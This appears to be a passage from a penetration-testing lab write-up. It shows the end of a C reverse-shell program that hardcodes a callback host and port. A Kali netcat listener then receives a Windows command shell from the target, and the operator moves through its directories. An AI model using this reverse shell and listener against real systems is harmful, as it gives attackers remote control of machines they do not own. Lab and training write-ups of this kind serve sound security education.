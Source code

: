 ```
            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        Run(argv[1], port);
    }
    else {
        char host[] = "10.11.81.220";
        int port = 1234;
        Run(host, port);
    }
    return 0;
} 

┌──(kali㉿kali)-[~/obfus]
└─$ nc -nvlp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.58.30.
Ncat: Connection from 10.10.58.30:49682.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>cd ..
cd ..

C:\xampp>cd ..
cd ..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\

11/14/2018  06:56 AM    <DIR>          EFI
05/13/2020  05:58 PM    <DIR>          PerfLogs
06/06/2022  05:28 PM    <DIR>          Program Files
06/06/2022  05:28 PM    <DIR>          Program Files (x86)
03/17/2021  03:00 PM    <DIR>          Users
03/17/2021  02:59 PM    <DIR>          Windows
06/06/2022  05:45 PM    <DIR>          xampp
               0 File(s)              0 bytes
               7 Dir(s)  13,862,584,320 bytes free

C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users

03/17/2021  03:00 PM    <DIR>          .
```